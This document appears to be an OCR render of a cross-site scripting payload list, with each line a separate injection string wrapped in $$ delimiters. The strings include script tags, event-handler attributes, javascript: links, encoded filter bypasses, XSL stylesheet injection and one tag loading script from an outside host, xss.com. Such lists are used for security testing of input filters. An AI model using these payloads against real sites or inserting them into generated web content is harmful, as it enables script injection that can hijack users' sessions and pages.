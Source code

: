 $$</ foo="><script>javascript:alert(1)</script>">$$
$$<// style=x:expression\28javascript:alert(1)\29>$$
$$<///style///><span %2F onmousemove='alert&lpar;1&rpar;'>SPAN$$
$$</TITLE><SCRIPT>alert("XSS");</SCRIPT>$$
$$</a>//["'`-->]]>]</div>$$
$$</font>/<svg><style>{src&#x3A;'<style/onload=this.onload=confirm(1)>'</font>/</style>$$
$$</form>$$
$$</form>//["'`-->]]>]</div>$$
$$</html>//["'`-->]]>]</div>$$
$$</image>$$
$$</math>//["'`-->]]>]</div>$$
$$</plaintext\></|\><plaintext/onmouseover=prompt(1)$$
$$</scrip</script>t><img src =q onerror=prompt(8)>$$
$$</script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>$$
$$</script><script>alert(1)</script>$$
$$</script><svg onload=alert(1)>$$
$$</style &#32;><script &#32; :-(>/**/alert(document.location)/**/</script &#32; :-($$
$$</style>//["'`-->]]>]</div>$$
$$</stylesheet>//["'`-->]]>]</div>$$
$$</svg>''<svg><script 'AQuickBrownFoxJumpsOverTheLazyDog'>alert&#x28;1&#x29; {Opera}$$
$$</svg>//["'`-->]]>]</div>$$
$$</template>$$
$$</xmp>$$
$$<<SCRIPT>%(payload)s//<</SCRIPT>$$
$$<<SCRIPT>alert("XSS");//<</SCRIPT>$$
$$<<scr\0ipt/src=http://xss.com/xss.js></script$$
$$<? '="foo"><x foo='><img src=x onerror=alert(3)//'>//["'`-->]]>]</div>$$
$$<? echo('<SCR)';$$
$$<? echo('<SCR)';echo('IPT>alert("XSS")</SCRIPT>'); ?>$$
$$<? foo="><script>alert(91)</script>">$$
$$<? foo="><script>javascript:alert(1)</script>">$$
$$<? foo="><x foo='?><script>alert(91)</script>'>">$$
$$<? foo="><x foo='?><script>javascript:alert(1)</script>'>">$$
$$<?a foo=x=`y><img alt="`><img src=xx:x onerror=alert(3)//">//["'`-->]]>]</div>$$
$$<?xml version="1.0"?><html:html xmlns:html='http://www.w3.org/1999/xhtml'><html:script>javascript:alert(1);</html:script></html:html>$$
$$<?xml-stylesheet type="text/xml" href="#stylesheet"?>$$
$$<?xml-stylesheet type="text/xsl" href="data:,%3Cxsl:transform version='1.0' xmlns:xsl='http://www.w3.org/1999/XSL/Transform' id='xss'%3E%3Cxsl:output method='html'/%3E%3Cxsl:template match='/'%3E%3Cscript%3Ealert(66)%3C/script%3E%3C/xsl:template%3E%3C/xsl:transform%3E"?>$$
$$<A HREF="htt p://6 6.000146.0x7.147/">XSS</A>$$
$$<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>$$
$$<A HREF="http://0102.0146.0007.00000223/">XSS</A>$$
$$<A HREF="http://0x42.0x0000066.0x7.0x93/">XSS</A>$$
$$<A HREF="http://1113982867/">XSS</A>$$
$$<A HREF="http://66.102.7.147/">XSS</A>$$
$$<A href="javascript%26colon;confirm()">click$$
$$<A href=javas%26#99;ript:alert(1)>click$$
$$<BASE HREF="javascript:alert('XSS');//">$$
$$<BASE HREF="javascript:javascript:alert(1);//">$$
$$<BGSOUND SRC="javascript:alert('XSS');">$$
$$<BGSOUND SRC="javascript:javascript:alert(1);">$$
$$<BODY BACKGROUND="javascript:alert('XSS')">$$
$$<BODY ONLOAD=alert('XSS')>$$
$$<BODY ONLOAD=javascript:alert(1)>$$
$$<BODY ONLOAD=javascript:javascript:alert(1)>$$
$$<BODY onload!#$%%&()*~+-_.,:;?@[/|\]^`=javascript:alert(1)>$$
$$<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>$$
$$<BR SIZE="&{alert('XSS')}">$$
$$<BR SIZE="&{javascript:alert(1)}">$$
$$<D3"<"/OncLick="1>[confirm``]"<">z$$